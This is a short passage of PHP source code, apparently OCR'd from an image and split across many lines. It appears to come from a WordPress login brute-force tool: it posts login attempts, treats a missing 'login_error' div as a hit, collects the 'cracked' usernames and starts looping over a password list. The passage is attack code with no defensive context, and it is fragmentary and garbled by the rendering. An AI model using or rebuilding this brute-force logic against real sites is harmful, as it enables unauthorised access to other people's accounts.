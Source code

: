 strpos

(httprequest(

$url

,

$post

),

'div id="login_error"'

);
            

if

(

$pos

=== false) {

                

echo

"$name $name"

.

"\n"

;
                

$crackname

[] =

$name

;

            

}
        

}

else

{

            

foreach

(

$passwords

as

$pass
